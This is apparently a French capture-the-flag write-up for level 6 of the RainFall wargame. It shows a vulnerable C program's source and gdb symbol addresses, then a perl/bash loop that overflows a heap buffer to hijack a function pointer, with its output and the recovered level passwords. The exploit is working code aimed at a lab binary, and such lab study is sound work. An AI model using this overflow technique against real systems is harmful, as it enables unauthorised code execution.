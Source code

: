# Level 6

pass : `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

## Sources :

```c=
#include <stdlib.h>

void	n() {
	system("/bin/cat /hom/user/level7/.pass");
}

void	m(char *str) {
	puts("Nope");
}

void	main(int ac, char **av) {
	char *str = malloc(64);  // 0x40
	void * (*ptr_function)(char *);
	ptr_function = malloc(4);
	ptr_function = &m;
	strcpy(str, av[1]);
	(*ptr_function)(str);
}
```

```gdb
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy@plt
0x08048350  malloc@plt
0x08048360  puts@plt
0x08048370  system@plt
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

## Recherche :

On va essayer de faire segfaut le programme jusqu'à ce que l'`EIP` soit remplacée par l'addresse de `n` (`0x08048454`)

On écrit un petite boucle :
```sh
for((i=64; i<80; i++)); do echo "index $i"; ./level6 `(perl -e 'print "A"x('$i')."\x54\x84\x04\x08"')` ;done
```

## Exploit :

```shell=
level6@RainFall:~$ for((i=64; i<80; i++)); do echo "index $i"; ./level6 `(perl -e 'print "A"x('$i')."\x54\x84\x04\x08"')` ;done
index 64
Nope
index 65
Nope
index 66
Nope
index 67
Nope
index 68
Segmentation fault (core dumped)
index 69
Segmentation fault (core dumped)
index 70
Segmentation fault (core dumped)
index 71
Segmentation fault (core dumped)
index 72
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
index 73
Segmentation fault (core dumped)
index 74
Segmentation fault (core dumped)
index 75
Segmentation fault (core dumped)
index 76
Segmentation fault (core dumped)
index 77
Segmentation fault (core dumped)
index 78
Segmentation fault (core dumped)
index 79
Segmentation fault (core dumped)
```

L'`EIP` à bien été remplacé par notre valeur avec un offset de 72. Et on a trouvé le pass pour le level suivant : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`
